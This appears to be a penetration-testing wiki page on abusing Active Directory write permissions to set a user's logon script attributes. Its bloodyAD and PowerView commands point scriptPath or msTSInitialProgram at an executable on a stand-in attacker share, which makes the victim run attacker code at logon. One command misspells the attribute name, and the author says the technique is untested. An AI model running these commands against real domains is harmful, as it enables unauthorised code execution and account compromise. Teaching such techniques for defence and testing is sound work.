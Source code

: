 # Logon script

{% hint style="danger" %}
It is worth noting that during my tests, I couldn't find a way to practice this scenario. Since I didn't find practical enough resources on the Internet, feel free to reach out if you manage to exploit this.
{% endhint %}

This abuse can be carried out when controlling an object that has a `GenericAll` or `GenericWrite` over the target, or a `WriteProperty` premission over the target's logon script attribute (i.e. `scriptPath` or `msTSInitialProgram`).

The attacker can make the user execute a custom script at logon.

{% tabs %}

{% tab title="UNIX-like" %}
This can be achieved with [bloodyAD](https://github.com/CravateRouge/bloodyAD).
```bash
bloodyAD --host "$DC_IP" -d "$DOMAIN" -u "$USER" -p "$PASSWORD" set object vulnerable_user msTSInitialProgram -v '\\1.2.3.4\share\file.exe'
bloodyAD --host "$DC_IP" -d "$DOMAIN" -u "$USER" -p "$PASSWORD" set object vulnerable_user msTSWorkDirectory -v 'C:\'

# or
bloodyAD --host "$DC_IP" -d "$DOMAIN" -u "$USER" -p "$PASSWORD" set object vulnerable_user scriptPath -v '\\1.2.3.4\share\file.exe'
```
{% endtab %}

{% tab title="Windows" %}
This can be achieved with [Set-DomainObject](https://powersploit.readthedocs.io/en/latest/Recon/Set-DomainObject/) ([PowerView](https://github.com/PowerShellMafia/PowerSploit/blob/dev/Recon/PowerView.ps1) module).

```bash

Set-DomainObject testuser -Set @{'msTSTnitialProgram'='\\ATTACKER_IP\share\run_at_logon.exe'} -Verbose

Set-DomainObject testuser -Set @{'scriptPath'='\\ATTACKER_IP\share\run_at_logon.exe'} -Verbose
```
{% endtab %}

{% endtabs %}